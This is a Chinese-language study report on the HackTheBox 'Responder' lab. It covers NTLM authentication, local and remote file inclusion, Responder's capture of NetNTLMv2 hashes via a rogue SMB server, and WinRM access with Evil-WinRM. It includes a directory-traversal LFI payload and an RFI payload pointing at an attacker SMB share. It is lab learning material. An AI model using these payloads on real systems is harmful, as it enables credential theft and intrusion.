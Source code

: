 # 8.24 HackTheBox Responder 模块学习与复现报告

## 1. 学习模块

### 1.1 核心知识点总结

#### 1.1.1 NTLM 认证协议深度解析

**NTLM (New Technology LAN Manager)** 是微软推出的一系列认证协议集合，采用挑战-响应（Challenge-Response）机制实现身份验证：

认证流程：
1. 客户端发送用户名和域名到服务器
2. 服务器生成随机挑战字符串（Challenge）
3. 客户端使用用户密码的NTLM哈希加密挑战字符串并返回
4. 服务器使用存储的哈希值同样加密挑战字符串进行比对
5. 匹配则认证成功

**关键术语区分**：

- **NTHash**：密码的哈希存储形式（存储在SAM或NTDS.dit中）
- **NetNTLMv2**：网络认证过程中的挑战-响应数据包
- **NTLM认证**：完整的认证协议流程

#### 1.1.2 文件包含漏洞利用机制

**Local File Inclusion (LFI)**：

- 通过目录遍历读取系统敏感文件
- Payload示例：`../../../../../../../../windows/system32/drivers/etc/hosts`通常 测试者们会以这个文件作为测试点 
- ![image-20250825025407638](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825025407638.png)
  -  													本机的该目录访问文件内容 

**Remote File Inclusion (RFI)**：

- 利用PHP的SMB URL加载特性（即使allow_url_include=Off）
- Payload示例：`//10.10.14.6/somefile`

#### 1.1.3 Responder 工具工作原理

Responder通过伪造网络服务捕获认证尝试：

- 启动恶意SMB服务器监听
- 诱导目标访问恶意SMB共享
- 捕获NetNTLMv2挑战-响应哈希
- 配置重点：SMB服务必须启用（Responder.conf中SMB = On）

#### 1.1.4 Windows远程管理（WinRM）

- 默认端口：5985/TCP
- 基于SOAP协议实现远程管理
- 需要用户凭证进行身份验证
- 工具：Evil-WinRM（专为渗透测试设计的WinRM客户端）
